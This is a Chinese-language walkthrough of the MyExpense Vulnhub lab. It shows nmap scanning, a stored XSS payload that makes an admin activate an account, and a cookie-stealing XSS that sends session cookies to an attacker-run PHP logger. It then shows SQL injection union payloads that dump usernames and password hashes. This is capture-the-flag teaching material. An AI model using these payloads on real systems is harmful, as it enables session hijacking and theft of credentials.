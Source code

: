 ```yaml
---
layout: post
title: "MyExpense walkthrough"
date: 2021-07-09
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.115` |
| Kali          | `192.168.1.116` |
| MyExpense     | `192.168.1.120` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.1.120`

```shell
┌──(root💀kali)-[/var/www/html]
└─# nmap -A -p- 192.168.1.120
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 07:10 UTC
Nmap scan report for 192.168.1.120
Host is up (0.022s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-robots.txt: 1 disallowed entry
|_/admin/admin.php
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Futura Business Informatique GROUPE - Conseil en ing\xC3\xA9nierie
33181/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
49591/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
53517/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
59229/tcp open  http    Mongoose httpd
|_http-title: Site doesn't have a title (text/plain).
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
```

结果显示，除了正常的**80**端口下的apache服务，还有其他端口下的Mongoose Web服务器端口。并且在*dirb*工具扫描结果中显示网页根目录存在*robots.txt*，以及可疑的*/admin/admin.php*文件。

并且在该文件*http://192.168.1.120/admin/admin.php*中暴露了用户名、邮箱地址、用户岗位等信息，同时也了解到注册用户分为了四类：管理员、财务审批员、主管和员工，其中需注意*Samuel Lamotte*员工用户状态为未激活，同时结合作者设计的[场景](https://www.vulnhub.com/entry/myexpense-1,405/)，需要将提交的费用报表走完报销流程才能获取到flag。

> 场景中，作者给出了*Samuel Lamotte*用户的凭证：`fzghn4lw`

在尝试进行登录时，返回提示信息：`Your account has been locked or is inactive. Please contact the administrator team.`。从提示信息中可知该操作属于管理员范畴，因此接下来我们需要管理员激活该用户。

### 存储型XSS

在*/signup.php*页面中存在存储型XSS漏洞，并且该页面将注册信息保存到数据库，之后*/admin/admin.php*查询用户数据库时就会执行XSS代码，此外管理员在后台也会查看该页面，也会执行XSS代码，因此只需将用户激活的链接插入到XSS代码即可：

```html
<script>document.write('<img src="http://192.168.1.120/admin/admin.php?id=11&status=active" />')</script>
```

再次访问*/admin/admin.php*页面时*slamotte*账户处于激活状态，因此可以进行账户和密码登录：`slamotte:fzghn4lw`。在后台可以看到该用户的费用报告，我们需要做的就是报销费用。

![1]({{ '/expense/1.png' | prepend: site.url }})

在*/profile.php*中知道该用户的上级（主管员）是*Manon Riviere*，因此接下来的操作就是登录到*mriviere*用户，将提交的报销单进行审阅通过。

![2]({{ '/expense/2.png' | prepend: site.url }})

### 获取Cookie

从*/admin/admin.php*结果中可知*mriviere*用户已经激活，那么就使用存储型XSS获取用户Cookie，然后切换到*mriviere*用户。

步骤为：

1. Kali开启apache服务，并且在*/var/www/html/*目录下新建*getcookie.php*文件，内容为：

   ```php
   <?php
   	$cookies = $_GET["cookie"];
   	file_put_contents("allcookies.txt",$cookies."\n",FILE_APPEND);
   ?>
   ```

   > 需要注意的是将目录所属用户组改成*www-data*，才能执行写操作

2. 插入以下XSS代码在页面中

   ```html
	<script>document.write('<img src="http://192.168.1.116/getcookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');</script>
	```
	
	![3]({{ '/expense/3.png' | prepend: site.url }})


挨个试试Cookie值，直到登录到*mriviere*用户。

```shell
┌──(root💀kali)-[/var/www/html]
└─# tail -f allcookies.txt
PHPSESSID=1hh8b7bljqi062hfo7uqjrrt42
PHPSESSID=m21bullib1uv6t7aabi1ljs7v4
PHPSESSID=m21bullib1uv6t7aabi1ljs7v4
PHPSESSID=f2akjl5ejq9u1hqcsarcnfm083
PHPSESSID=f2akjl5ejq9u1hqcsarcnfm083
PHPSESSID=e254uduf68vh18lnt0u632eeu1
PHPSESSID=e254uduf68vh18lnt0u632eeu1
PHPSESSID=q25f5ec12n91q2tjbrs36cnja0
PHPSESSID=f2akjl5ejq9u1hqcsarcnfm083
PHPSESSID=f2akjl5ejq9u1hqcsarcnfm083
PHPSESSID=m21bullib1uv6t7aabi1ljs7v4
PHPSESSID=m21bullib1uv6t7aabi1ljs7v4
PHPSESSID=e254uduf68vh18lnt0u632eeu1
PHPSESSID=e254uduf68vh18lnt0u632eeu1
...
```

登录到*miriviere*用户后台后，在*/expense_reports.php*中可以看到*slamotte*用户提交的报销单，对其通过即可。之后该流程进行到财务审批员进行审核，一旦审核通过即可得到flag。

![4]({{ '/expense/4.png' | prepend: site.url }})

### SQL注入

此外在*/site.php*页面中存在SQL注入，步骤有：

1. 判断注入点

   ```sql
   ?id=2
   ?id=2'
   ?id=2 or 1=1 #
   ?id=2 order by 4#
   ?id=2 union select 1,2,3,4#
   ```

   ![5]({{ '/expense/5.png' | prepend: site.url }})


2. 爆表

   ```sql
   ?id=2 union select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema=database())#
   ```

   > 返回：*expense,message,site,user*

3. 爆列

   ```sql
   ?id=2 union select 1,2,3,(select group_concat(column_name) from information_schema.columns where table_schema=database())#
   ```

   > 返回：*…,username,password,…*

4. 爆密码

   ```sql
   ?id=2 union select 1,2,username,password from user#
   ```

   ![6]({{ '/expense/6.png' | prepend: site.url }})


其中*pbaudouin*用户的MD5加密密码为：*64202ddd5fdea4cc5c2f856efef36e1a*，经过[MD5查询](https://www.cmd5.com/)解密为：*HackMe*

之后的操作比较简单，使用*pbaudouin:HackMe*用户名和密码进行登录，在后台进行审核通过，之后再登录到*slamotte*后台就可得到flag。

![7]({{ '/expense/7.png' | prepend: site.url }})

### 总结

XSS获取Cookie代码：

```html
<script>document.write('<img src="http://192.168.1.116/getcookie.php?cookie='+document.cookie+'" width=0 height=0 border=0 />');</script>
```

```php
<?php
    $cookies = $_GET["cookie"];
    file_put_contents("allcookies.txt",$cookies."\n",FILE_APPEND);
?>
```

